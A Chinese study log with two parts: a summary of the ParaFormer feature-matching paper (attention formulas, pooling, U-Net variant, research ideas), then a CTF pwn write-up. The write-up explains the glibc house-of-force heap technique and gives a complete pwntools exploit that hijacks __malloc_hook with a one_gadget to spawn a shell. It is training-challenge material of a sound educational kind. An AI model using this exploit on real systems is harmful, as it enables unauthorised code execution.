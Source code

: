# 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images\三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images\屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为$p^X \in R^{M\times3}$,$p^Y \in R^{N\times3}$,  设置描述符分别为$d^X \in R^{M\times C}$,$d^Y \in R^{N\times C}$。波形的生成公式如下
$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\,\;= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$
在Wave-PE中将位置$p$和描述符$d$分别映射为为幅度$A$和相位$\theta$通过MLP将其转换为位置编码$x,[.,.] $表示链接。
$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$
接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为$Q、K、V$。然后并行计算自注意力和交叉注意力，自注意力的输入是$(Q_x,V_x, K_x)$和$(Q_y,V_y, K_y)$对于自注意力来说采用标准的注意力公式。
$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$
对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用$(Q_xK_y^T)^T$来代替

$Q_yK_x^T$，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images\U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images\自注意力.png)

假设l层中的特征为$x^l ∈ R^{N×D}$，注意力权重为$A^l ∈ R^{N×N}$。提出的注意力池化定义为：
$$
s=sum(A,dim=1)
\\idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\g=sigmoid(s(idx))
\\x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层$l+1$的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分$s∈R^N$,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$提取s中索引为$idx$的值然后利用$sigmoid$运算来生成gating信号，$\odot$表示逐元素矩阵乘法。

反池化上采样操作则为
$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$
$x^l∈R^{k\times C^l}$是当前的特征矩阵，$0_{N \times C^{l+1}}$是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。$idx ∈ R^k$是在对应池化层中选择的点的索引。然后根据$idx$将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images\1.png)

初始界面有两种功能

![2](images\2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

